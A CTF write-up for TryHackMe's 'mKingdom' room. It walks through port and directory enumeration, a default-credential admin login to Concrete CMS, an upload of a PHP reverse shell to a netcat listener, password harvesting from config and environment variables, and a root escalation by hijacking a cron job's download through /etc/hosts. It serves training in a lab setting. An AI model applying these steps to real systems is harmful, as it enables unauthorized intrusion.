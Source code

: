 ```yaml
---
title: 'TryHackMe: mKingdom'
author: batu7x
categories: [TryHackMe CTFs]
tags: [web, gobuster, cms, rce, env, pspy, crontab]
render_with_liquid: false
media_subpath: /images/tryhackme_mKingdom
image:
  path: room.webp
---
```


![mKingdom](room1.webp){: width="600" height="150" .shadow }
_<https://tryhackme.com/room/mkingdom>_

## Enumeration

### Nmap Scan

Lets start our CTF with enumeration, we will use nmap scan firstly.

```console
$ sudo nmap -Pn -sC -sV -vv -p- 10.10.35.45

Nmap scan report for 10.10.35.45
Host is up, received user-set (0.066s latency).
Scanned at 2025-05-19 13:26:17 +03 for 52s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: 0H N0! PWN3D 4G4IN
```

Only port `85` is open, its http port. Lets check the website.

### Gobuster

Firstly lets check the website, there is nothing on the index page & source code. We will try bruteforcing directories with `gobuster` tool.

```console
$ gobuster dir -u http://10.10.35.45:85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Starting gobuster in directory enumeration mode
===============================================================
/app                  (Status: 301) [Size: 310] [--> http://10.10.35.45:85/app/]
```

Gobuster finds /app directory lets check this directory.

![room](room2.webp){: width="1200" height="600" }

## Shell

### www-data Shell

There is an button on the page named `JUMP` if we click on it, it redirects us to /app/castle

There is a blog build with help of Concrete CMS. If we check the version of Concrete CMS in Wappalyzer Add-on. We see its 8.5.2

![room1](room3.webp){: width="1200" height="600" }

I searched for vulnerabilities in this version 8.5.2

It have a RCE vulnerability but we need to get access to admin account. There is a login button bottom of the index page. Before we start bruteforce i tried username and passwords like admin:admin , admin:password and admin:password worked. We are in!

Now we need to add php to `Allow File Types` page.

![room2](room4.webp){: width="1200" height="600" }

We need to create a php reverse shell. We can use pentestmonkey's php reverse shell (on github). Dont forget to change your IP & Port in file.

Now move to the `File Manager` page and upload the reverse shell. It gives us the URL where the file located.

![room3](room5.webp){: width="1200" height="600" }

```console
$ rlwrap nc -lvnp 9001

connect to [10.23.66.67] from (UNKNOWN) [10.10.35.45] 40098
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:01:08 up 39 min,  0 users,  load average: 0.09, 0.07, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```

We got our shell as www-data. Now we need move to other user (toad or mario)

### Toad Shell

We can learn toad's password from /var/www/html/app/castle/application/config/database.php

![room4](room6.webp){: width="1200" height="600" }

Change our user to toad.

```console
$ su toad
```

### Mario Shell

In environmental variables of toad there is something named PWD_token

![room5](room7.webp){: width="1200" height="600" }

If we decode it with base64. We are getting mario's password!

![room6](room8.webp){: width="1200" height="600" }

Now change our user to mario

```console
$ su mario
```

We can't get user.txt in mario's home directory for now because it owned by root

### Root Shell

There is a tool named `pspy`. This tool allows us to see linux processes in real time without being root.

If we run the pspy and wait for a few minutes, we will see there is a cronjob running as root in every minute.

“counter.sh” file gets pulled from mkingdom.thm, and executed with bash every minute. We need to edit counter.sh or edit /etc/hosts.

We can edit /etc/hosts and we will add our attacker ip with mkingdom.thm url.

```console
$
$ATTACKERIP mkingdom.thm

```

Now on our attacker machine create exact directory

```console
$ sudo mkdir -p /app/castle/application
```

Create `counter.sh` in this directory & put reverse shell on it. Start hosting http server on port 85 with python3

```console
$ python3 -m http.server 85
```

And after about a minute we see a GET request being made, grabbing our counter.sh & We got **root** shell.

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>